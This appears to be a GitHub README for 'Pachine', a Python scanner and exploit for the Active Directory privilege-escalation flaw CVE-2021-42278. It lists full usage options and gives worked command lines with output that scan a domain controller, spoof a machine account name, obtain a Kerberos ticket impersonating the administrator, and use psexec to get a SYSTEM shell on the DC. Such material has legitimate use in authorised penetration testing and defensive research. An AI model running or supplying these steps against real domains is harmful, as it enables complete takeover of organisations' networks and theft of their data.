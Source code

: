 # Pachine

Python implementation for CVE-2021-42278 (Active Directory Privilege Escalation).

## Installation

```bash
$ pip3 install impacket
```

## Usage

```
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE]
                  [-domain-netbios NETBIOSNAME]
                  [-use-computer USE-COMPUTER-NAME$]
                  [-computer-name NEW-COMPUTER-NAME$]
                  [-computer-pass password] [-debug] [-method {SAMR,LDAPS}]
                  [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local]
                  [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                  -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]

Pachine - CVE-2021-42278 Scanner & Exploit

positional arguments:
  [domain/]username[:password]
                        Account used to authenticate to DC.

optional arguments:
  -h, --help            show this help message and exit
  -scan                 Scan the DC
  -spn SPN              SPN (service/server) of the target service the service
                        ticket will be generated for
  -impersonate IMPERSONATE
                        target username that will be impersonated (through
                        S4U2Self) for quering the ST. Keep in mind this will
                        only work if the identity provided in this scripts is
                        allowed for delegation to the SPN specified
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple
                        domains.
  -use-computer USE-COMPUTER-NAME$
                        Name of the computer account you want to use.
  -computer-name NEW-COMPUTER-NAME$
                        Name of new computer. If omitted, a random
                        DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computer. If omitted, a random
                        [A-Za-z0-9]{32} will be used.
  -debug                Turn DEBUG output ON
  -method {SAMR,LDAPS}  Method of adding the computer. SAMR works over SMB.
                        LDAPS has some certificate requirements and isn't
                        always available.
  -port {139,445,636}   Destination port to connect to. SAMR defaults to 445,
                        LDAPS to 636.

LDAP:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP. If ommited, the domain part
                        (FQDN) specified in the account parameter will be
                        used.
  -computer-group CN=Computers,DC=test,DC=local
                        Group to which the account will be added. If omitted,
                        CN=Computers will be used,

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on account parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)
  -dc-host hostname     FQDN of the domain controller to target.
  -dc-ip ip             IP of the domain controller to use. Useful if you
                        can't translate the FQDN.specified in the account
                        parameter will be used

```

### Demonstration

![](./imgs/attack.png)

### Examples

#### Scanning

To scan a domain controller, use the `-scan` option. Supply the hostname of the DC with the `-dc-host` option.
If you cannot resolve the hostname, you can also supply the IP of the DC with `-dc-ip`. At least `-dc-host` must be supplied.

```bash
$ python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Domain controller dc.predator.local is most likely vulnerable
```

#### Exploitation

```bash
$ python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Added machine account dc with password qwx1TwIGRNcwsBptfDfyw9wubnVBSVij.
[*] Got TGT for dc@PREDATOR.LOCAL
[*] Changed machine account name from dc to DESKTOP-XS5FCF1Y$
[*] Requesting S4U2self
[*] Got TGS for administrator@predator.local for dc@PREDATOR.LOCAL
[*] Changing sname from dc@PREDATOR.LOCAL to cifs/dc.predator.local@PREDATOR.LOCAL
[*] Changed machine account name from DESKTOP-XS5FCF1Y$ to dc
[*] Saving ticket in administrator@predator.local.ccache
```

#### Target another machine

```bash
$ python3 pachine.py -dc-host dc.predator.local -spn cifs/server.predator.local -use-computer dc -impersonate administrator 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Changed machine account name from dc to server
[*] Machine account server already exists. Trying to change password.
[*] Changed password of server to K4Vd6JZC9H9OJh67GjxLVUWbtC3GyC1X.
[*] Got TGT for server@PREDATOR.LOCAL
[*] Changed machine account name from dc to DESKTOP-XS5FCF1Y$
[*] Requesting S4U2self
[*] Got TGS for administrator@predator.local for server@PREDATOR.LOCAL
[*] Changing sname from server@PREDATOR.LOCAL to cifs/server.predator.local@PREDATOR.LOCAL
[*] Changed machine account name from DESKTOP-XS5FCF1Y$ to server
[*] Saving ticket in administrator@predator.local.ccache
```

##### Using the TGS

```bash
$ # Set and verify the CCACHE
$ export KRB5CCNAME=$PWD/administrator@predator.local.ccache
$ klist
Ticket cache: FILE:/opt/Pachine/administrator@predator.local.ccache
Default principal: administrator@predator.local

Valid starting       Expires              Service principal
12/13/2021 23:45:19  12/14/2021 09:45:19  cifs/dc.predator.local@PREDATOR.LOCAL
	renew until 12/14/2021 23:45:19
$ # Use Impacket's Psexec. This will work for 'cifs'
$ impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.predator.local.....
[*] Found writable share ADMIN$
[*] Uploading file GPZNUSse.exe
[*] Opening SVCManager on dc.predator.local.....
[*] Creating service FBle on dc.predator.local.....
[*] Starting service FBle.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Details
Pachine (PAC + Machine) is a Python exploit implementation for [CVE-2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278). I highly recommend reading Charlie Clark's ([@exploitph](https://twitter.com/exploitph))  great [blog post](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) for technical details on CVE-2021-42278.

## Authors
- [@ly4k](https://github.com/ly4k)

## Credits
- [@cube0x0](https://github.com/cube0x0)'s C# [implementation](https://github.com/cube0x0/noPac)
- [Charlie Clark @exploitph](https://twitter.com/exploitph)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

## References
- [exploit.ph: CVE-2021-42287/CVE-2021-42278 Weaponisation](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)

